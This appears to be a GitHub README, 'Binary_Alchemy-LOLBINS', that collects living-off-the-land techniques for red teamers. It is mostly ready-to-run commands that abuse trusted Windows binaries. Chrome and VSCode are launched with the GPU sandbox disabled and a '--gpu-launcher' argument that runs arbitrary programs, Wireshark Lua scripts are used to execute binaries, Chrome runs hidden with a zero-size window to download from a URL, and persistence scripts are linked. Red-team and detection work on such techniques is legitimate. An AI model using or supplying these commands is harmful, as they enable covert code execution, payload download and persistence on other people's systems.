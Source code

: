 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Persistence_P0C.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Lnk%20Persistence.ps1)

````

